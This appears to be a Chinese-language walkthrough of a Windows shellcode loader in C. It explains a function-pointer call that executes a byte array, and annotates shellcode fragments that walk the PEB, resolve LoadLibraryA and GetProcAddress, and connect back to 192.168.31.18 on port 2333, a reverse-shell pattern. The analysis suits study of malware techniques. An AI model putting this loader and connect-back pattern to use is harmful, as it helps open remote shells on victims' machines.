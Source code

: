 > - 包含头文件：
> 
> `#include <stdio.h>`：标准输入输出库头文件。
> `#include <windows.h>`：Windows API 头文件。
> 
> - 定义 Shellcode：
> 
> unsigned char buf[] = {...};：定义一个字符数组 buf，存储一段 Shellcode（十六进制字节码）。
> 
> - 执行 Shellcode：
> 
> void main() { ((void(*)(void)) & buf)(); }：将 buf 的地址强制转换为一个函数指针，并调用它。这段代码的作用是直接执行 buf 中的 Shellcode。
> 
> Shellcode 分析：
> 
> 1.初始设置：\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30
> 
> `\xfc`：清除方向标志。
`\xe8\x8f\x00\x00\x00`：调用下一条指令，获取当前地址。
`\x60`：保存所有通用寄存器。
`\31\xd2`：将 EDX 寄存器清零。
`\x89\xe5`：将 ESP 寄存器的值复制到 EBP。
`\x64\x8b\x52\x30`：从 FS 段寄存器读取 PEB 的地址。
> 
> 2.PEB遍历：
> 
> `\x8b\x52\x0c`：获取 PEB 的 Ldr 地址。
`\x8b\x52\x14`：获取 Ldr.InMemoryOrderModuleList 链表的地址。
> 
> 3.模块遍历和字符串比较：
> 
> `\x31\xff\x0f\xb7\x4a\x26`：遍历模块链表，查找特定模块（例如 kernel32.dll）。
`\x8b\x72\x28`：获取模块的基地址。
> 
> 4.导出表解析：
> 
> `\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20`：解析模块的导出表，查找特定函数（如 LoadLibraryA 和 GetProcAddress）。
`\xc1\xcf\x0d\x01\xc7\x49\x75\xef`：继续遍历和比较导出函数名称。
> 
> 5.函数调用：
> 
> `\x52\x8b\x52\x10\x8b\x42\x3c`：调用特定的 Windows API 函数，通常用于加载新的库或获取函数地址。
`\x57\x01\xd0\x8b\x40\x78`：准备调用 LoadLibraryA 或 GetProcAddress。
6.网络操作：
> 
> `\x68\xc0\xa8\x1f\x12`：设置 IP 地址（192.168.31.18）。
`\x68\x02\x00\x09\x1d`：设置端口（2333）。
`\xff\xd5`：执行网络操作，通常是创建网络连接。
7.清理和返回：
> 
> `\x83\xf8\x00\x7e\x36`：检查操作结果。
`\xc3`：函数返回。
